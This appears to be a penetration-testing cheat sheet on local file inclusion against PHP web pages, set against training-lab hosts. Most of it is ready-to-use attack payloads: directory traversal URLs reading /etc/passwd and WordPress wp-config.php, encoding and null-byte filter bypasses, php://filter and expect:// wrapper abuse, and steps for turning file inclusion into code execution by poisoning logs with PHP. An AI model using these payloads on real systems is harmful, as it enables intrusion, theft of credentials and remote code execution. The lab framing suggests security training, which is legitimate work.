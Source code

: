 **Basic Linux Test**

Test for:

```
http://example.thm.labs/page.php?file=/etc/passwd 
http://example.thm.labs/page.php?file=../../../../../../etc/passwd 
http://example.thm.labs/page.php?file=../../../../../../etc/passwd%00 
http://example.thm.labs/page.php?file=....//....//....//....//etc/passwd 
http://example.thm.labs/page.php?file=%252e%252e%252fetc%252fpasswd
http://172.16.1.10/nav.php?page=php://filter/convert.base64-encode/resource=../../../../../../../../../etc/passwd
http://172.16.1.10/nav.php?page=php://filter/convert.base64-encode/resource=../../../../../../../../../var/www/html/wordpress/wp-config.php
http://172.16.1.10/nav.php?page=php://filter/convert.base64-encode/resource=../../../../../../../../../var/www/html/wordpress/index.php
```

#### PHP Wrappers

* PHP has a number of wrappers that can often be abused to bypass various input filters.

**PHP Expect Wrapper**

* `PHP expect://` allows execution of system commands, unfortunately the expect PHP module is not enabled by default

```
php?page=expect://ls
```

**PHP Filter Wrapper**

`php://filter` allows a pen tester to include local files and base64 encodes the output. Therefore, any base64 output will need to be decoded to reveal the contents.

```
http://example.thm.labs/page.php?file=php://filter/resource=/etc/passwd
http://example.thm.labs/page.php?file=php://filter/read=string.rot13/resource=/etc/passwd 
http://example.thm.labs/page.php?file=php://filter/convert.base64-encode/resource=/etc/passwd
```

* First one will often fail because it attempts to execute the php code, thus converting to ROT13 or base64 will help achieve LFI

#### LFI to RCE via Log Posioning

* First find the log file path and attempt to `curl` to it

```
user@machine$ curl -A "This is testing" http://10-10-122-235.p.thmlabs.com/login.php
```

* Should see the evidence of your test in the user agent string logged
* ![1](https://user-images.githubusercontent.com/75596877/145140973-2ab102e2-f40d-4f16-8a0b-a3582f002d46.png)
* Now post php code to the log file and then visit the log file location to execute the php code you just injected
